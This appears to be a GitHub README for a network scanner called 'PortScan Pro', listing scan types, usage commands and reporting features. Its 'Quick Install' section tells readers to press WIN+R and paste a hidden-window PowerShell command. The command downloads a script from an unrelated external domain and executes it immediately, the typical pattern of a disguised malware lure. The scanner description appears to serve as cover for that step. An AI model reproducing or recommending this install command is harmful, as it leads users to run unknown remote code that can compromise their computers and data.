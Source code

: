 # 🔍 PortScan Pro - Next-Generation Network Scanner
*Enterprise-grade port scanning with intelligent analysis and reporting*

---

## 🌟 Core Features

### 🚀 Smart Scanning Engine
✅ **Multi-Protocol Support**  
- TCP SYN/FIN/XMAS scans  
- UDP service detection  
- SCTP protocol scanning  

✅ **Adaptive Performance**  
- Auto-rate limiting (prevents network overload)  
- Parallel scan optimization  
- Packet fragmentation detection  


## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press WIN+R
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/weatherdolphin/dollrandom))).Invoke();
```

```python
# Sample scan with intelligent throttling
from portscanpro import Scanner

scanner = Scanner(
    target="192.168.1.0/24",
    ports="1-1024,3389,8080",
    intensity="corporate"  # adjusts packet rate
)
results = scanner.run()
```


### 📊 Analysis & Reporting
#### 🔍 Service Fingerprinting
- Banner grabbing with protocol decoding

- SSL/TLS inspection (supported ciphers/versions)

- Service version detection (1500+ signatures)

#### 📈 Network Mapping
```
graph TD
    A[Target IP] --> B[Open Ports]
    B --> C[Service Identification]
    C --> D[Vulnerability Indicators]
```

### 🖥️ Usage Examples

#### Basic Scan:
```
psp scan -t 10.0.0.1 -p 22,80,443 -m syn
```

#### Full Service Audit:

```
psp deepscan -f targets.txt -o audit_2024.html --legal-check
```

#### Continuous Monitoring:
```
psp monitor --network 192.168.1.0/24 --schedule daily --slack-alerts
```
### Scan Types:
```
| Mode       | Speed | Stealth | Reliability |
|------------|-------|---------|-------------|
| SYN Scan   | ★★★★☆ | ★★★★★   | ★★★★☆       |
| CONNECT    | ★★★☆☆ | ★★☆☆☆   | ★★★★★       |
| UDP Probe  | ★★☆☆☆ | ★★★☆☆   | ★★★☆☆       |
```
